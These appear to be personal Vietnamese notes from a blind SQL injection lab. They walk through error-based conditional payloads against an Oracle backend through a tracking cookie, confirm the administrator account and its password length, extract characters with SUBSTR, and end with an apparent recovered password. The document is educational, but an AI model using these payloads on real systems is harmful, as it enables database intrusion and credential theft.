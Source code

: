- ' -> 500
- '' -> 200
(TrackId= 'xyz''' nếu viết 1 cái thì bị lỗi do thừa, còn 2 cái thì nó kết thành 2 cái kiểu chuỗi nối với nhau ý, nên nó ko lỗi nữa)

- ' || (SELECT '') ||' -> 500
- ' || (SELECT '' FROM dual) ||' -> Oracle vì bị bắt chỉ rõ tên bảng
(`dual` là một bảng đặc biệt trong Oracle, thường dùng cho các truy vấn không cần truy cập dữ liệu thực tế)

- ' || (SELECT '' FROM dualdbajdsh) ||' -> Thử đổi tên bảng thì lỗi 500, vậy...
- ' || (SELECT '' FROM users) ||' -> 500
- ' || (SELECT '' FROM users WHERE ROWNUM = 1) ||' 
(điều kiện `ROWNUM = 1` phải có vì để ghép chuỗi thì chỉ có thể lấy dữ liệu 1 dòng, nếu nhiều dòng thì không thể ghép nên mới gây ra lỗi 500 như trên)

- '|| (SELECT '' FROM users WHERE username = 'administrator') ||' -> 200

- ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||' -> 500
- ' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||' -> 200

- '|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') ||' -> 500, tương tự thôi, để kiểm tra xem administrator có tồn tại hay không

- ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND LENGTH(password) = 20) ||'
Check độ dài pass thì là 20

- ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator' AND SUBSTRING(password,1,1) = 'a') ||'

' || (SELECT CASE WHEN SUBSTRING(password,1,1) = 'a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') ||'

Sai ở SUBSTRING nhé, dùng SUBSTR() với Oracle nè.

- Xong đẩy lên Intruder: 

![alt text](image-1.png)

zh6rauox597khm8eumjx
